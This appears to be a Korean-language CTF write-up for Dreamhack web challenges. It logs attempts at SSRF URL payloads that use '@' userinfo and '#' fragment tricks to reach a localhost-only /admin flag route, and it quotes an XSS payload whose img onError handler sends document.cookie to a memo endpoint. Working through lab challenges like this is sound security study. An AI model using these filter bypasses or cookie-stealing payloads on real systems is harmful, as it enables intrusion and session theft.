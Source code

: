 http://www.google.com/../../flag 
질문 중에 하나는 로컬 환경 어쩌고 하던데 
실제로는 그런 건 전혀 필요 없는 문제이다 
url을 잘 구성하는 것이 이 문제가 원하는 핵심이라고 할 수 있다 
https://umbum.dev/473 참고자료 

http://google.com:80+&@127.88.23.245:22/#+@google.com:80/
http://127.88.23.245:22/+&@google.com:80#+@google.com:80/
http://google.com:80+&@google.com:80#+@127.88.23.245:22/

http://google.com:80+&@google.com:80#+@127.88.23.245:22/admin/ 

http://google.com:80+&@google.com:80#+@127.0.0.1/flag.html
http://google.com:80+&@google.com:80#+@127.0.0.1/../../FLAG
http://google.com:80+&@google.com:80#+@127.0.0.1/admin
http://google.com:3333+&@google.com:80#+@127.0.0.1/admin
http://google.com:80+&@google.com:80#+@127.0.0.1:3333/admin
http://google.com:80+&@google.com:80#+@127.0.0.1:3333/../../admin

똑같이 web으로 구성되어있는 xss2 역시 
try:
    FLAG = open("./flag.txt", "r").read()
except:
    FLAG = "[**FLAG**]"

<img src='wrongLocation.jpg' onError="location.href='/memo?memo='+document.cookie;" />
페이로드는 이런 식으로 구성되어 있다 

크롤링 역시 
app.flag = '__FLAG__'
이렇게 되어있기는 해도 __ 이런 식으로 답이 나올리가 없다 
위에 있는 내용이 의미하는 것은 아마도 
app.flag를 가동하는 것이 플래그를 얻는 것이다 라는 의미를 말하는 것이라고 보는 것이 정확하다 

@app.route('/admin')
def admin_page():
    if request.remote_addr != '127.0.0.1':
    		return "This is local page!"
    return app.flag
그리고 /admin 함수로 들어가는 것이 app.flag 를 가동하는 것이라는 점을 알 수 있다 

http://doesnt'matter@www.pc-help.org/obsure.htm 
@앞에 오는 것은 무시된다. 원래는 id:pw@url형식으로 사용하도록 되어 있으니까. 

URL: http://google.com:80+&@google.com:80#+@host1.dreamhack.games:12316/admin/
URL: http://google.com:80+@host1.dreamhack.games:12316/admin/
http://google.com:80+@host1.dreamhack.games:12316/../../admin/
http%3A%2F%2Fgoogle.com%3A80%23%2B%40host1.dreamhack.games:20569/admin/

/ 예전에 ../../flag (필터링)를 버프 프록시로 우회했던 기억이 나서 버프 프록시로 하나씩 실행해보았다 
http://google.com:3333+&amp;@google.com:80#+@www.host1.dreamhack.games:20569/../../admin/

다시 기본으로 돌아가보았다 
http://127.0.0.1:3333/#@www.google.com:80/
http://127.0.0.1:3333/?@google.com:80/
http://google.com:80+&@google.com:80#+127.0.0.1:3333/
http://127.0.0.1:3333/+&@google.com:80#+@google.com:80/
http://google.com:80+&@127.0.0.1:3333/#+@google.com:80/

일단 목표지점은 확실히 127.0.0.1:3333이 맞다 
바로 거기에 직접적으로 들어가는 것이 아니더라도 
어쨋든 목표지점은 거기가 맞다 

http://google.com:80@127.0.0.1:3333/admin 
대박 ㅋㅋㅋㅋㅋㅋ 결국에 맞추었다 ㅋㅋㅋㅋㅋ 
진짜 계속 거의 다 왔는데 거의 다 왔는데 그런 느낌이 들었는데 
역시나 정답이었다  
거의 다 왔다는 기분으로 한 번 더 한 번 더 도전했더니 결국엔 풀렸다 
